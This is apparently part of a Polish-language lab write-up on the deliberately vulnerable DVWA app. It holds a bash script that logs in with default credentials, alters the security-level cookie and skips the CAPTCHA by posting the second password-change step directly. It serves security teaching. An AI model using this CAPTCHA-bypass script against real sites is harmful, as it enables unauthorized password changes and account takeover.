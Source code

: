 ```bash
if [[ $# -ne 2 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=low&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/low/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

exploit() {
  response=$(curl -s -x "http://127.0.0.1:8080" -b dvwa.cookie -X POST -d "step=2&password_new=$2&password_conf=$2&Change=Change" "$1/vulnerabilities/captcha/" | awk -v RS="<pre>" 'NR > 1 {gsub(/<\/pre>.*/, ""); print}')
  [[ ! -z "$response" ]] && echo "Password changed to: $2" && exit 1
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"
exploit "$1" "$2"
echo "Something went wrong and the password was not changed. Check with proxy"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/captcha_low.gif "Po uruchomieniu skrypt wykonuje od razu żądanie kroku 2 (step=2). Ten krok nie wymaga realizacji wyzwania CAPTCHA, a to właśnie przez niego dokonywana jest zmiana hasła")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>

<br/>
<br/>
